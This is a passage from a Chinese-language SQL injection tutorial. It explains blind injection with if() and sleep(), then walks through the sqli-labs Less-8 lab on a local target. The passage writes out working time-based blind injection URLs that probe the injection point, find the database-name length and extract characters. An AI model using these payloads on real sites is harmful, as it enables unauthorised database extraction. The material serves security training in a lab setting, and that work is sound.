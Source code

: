第二个参数ture_result为真时的返回结果。

第三个参数false_result为假时的返回结果。

如：?id=1 and 1=if (ascii(substr(user(),1,1))=97,1,2)

如果user 的第一位是‘a’则将返回1，否则就返回2。然而，如果返回的是2，则会使and后的条件不成立，导致返回错误页面。这时我们可以根据页面的长度进行判定，从而达到盲注的效果。

#### 3.4.3.2.**sleep()睡眠函数**

语法：sleep(N)

第一个参数N是睡眠的时间

如：if (ascii(substr(user(),1,1))=114,sleep(5),2)

这样的话，如果user的第一位是‘r'，则页面返回将延迟5秒。这里需要注意的是，这5秒是在服务器端的数据库中延迟的，实际情况可能会由于网络环境等因素延迟更长时间

如果存在没写到的函数，但是使用了，可以自行搜索。

### 3.4.4.**案例sqli-labs-less-8 字符型**

#### 3.4.4.1.**判断注入点**

?id=1 and 1=1--+ 正常

?id=1 and 1=2--+ 正常

到这里其实基本上可以判断不是数字型了，那么就需要按照我们上面提到的干扰字符进行测试，可以按照上述的字段判断一条一条测试。

?id=1' and 1=2--+ 不正常

运气很好习惯性的加入一个引号就闭合了。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and 1=2--+

![img](https://s2.loli.net/2023/03/12/q1mWHY9kPXxC2eF.jpg) 

#### 3.4.4.2.**判断是否存在时间盲注**

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and sleep(5)--+

![img](https://s2.loli.net/2023/03/12/gyX39VSCbcKuzBF.jpg) 

#### 3.4.4.3.**猜测数据库名长度**

其实时间盲注也就是延迟盲注其实就是在布尔的时候加入一个If判断程序。主体语句上和布尔盲注大差不多。Sleep (5),1中若前面的判断是正确的则返回页面的时候延迟5秒钟，若不正确则秒回。当然也受网络影响，这里是靶机所以影响比较小。

也可以把sleep (5),1调整为sleep (1),5意思就是正确了秒回，不正确则延迟5秒返回。

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(length(database())=8,sleep(5),1)--+

![img](https://s2.loli.net/2023/03/12/c2mE1tilGRU7NSL.jpg) 

#### 3.4.4.4.**猜测数据库名**

猜测数据库名第一位

URL：http://192.168.10.150/sqlilabs/Less-8/?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1)--+
